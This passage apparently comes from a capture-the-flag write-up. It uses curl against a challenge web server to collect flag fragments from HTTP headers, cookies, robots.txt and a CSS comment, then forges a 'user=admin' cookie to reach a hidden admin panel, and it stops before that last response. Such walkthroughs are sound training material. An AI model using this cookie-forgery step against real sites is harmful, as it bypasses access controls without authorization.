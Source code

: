 **Response:**

```
HTTP/1.1 403 Forbidden
X-Powered-By: Express
X-Flag-Part2: c4lm_4nd_
Set-Cookie: user=guest; Path=/; HttpOnly
Set-Cookie: flag_part3=1n5p3c7_; Path=/; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 1682
Connection: keep-alive
Keep-Alive: timeout=5
```

**Flag 3/7:** `1n5p3c7_` (from the second `Set-Cookie` header)

---

```bash
curl -s http://34.150.251.3:3000/robots.txt
```

> `robots.txt` is a common text file used by websites to provide crawling instructions.  
> Learn more: [https://developers.google.com/search/docs/crawling-indexing/robots/intro](https://developers.google.com/search/docs/crawling-indexing/robots/intro)

**Response:**

```
User-agent: *
Disallow: /hidden_admin_panel
# part4=411_7h3_
```

**Flag 4/7:** `411_7h3_`

---

```bash
curl -s http://34.150.251.3:3000/styles.css
```

**Response:**

```css
/* p_a_r_t_f_i_v_e=4pp5_*/
```

**Flag 5/7:** `4pp5_`

---

```bash
curl -s http://34.150.251.3:3000/hidden_admin_panel -H "Cookie: user=admin" | grep flag
```

> `-H` sets a custom header in `curl`.  
> Here, we combined the hints from `Set-Cookie: user=guest; Path=/; HttpOnly` and the hidden path from `robots.txt` (`Disallow: /hidden_admin_panel`) to find this part of the flag.

**Response:**
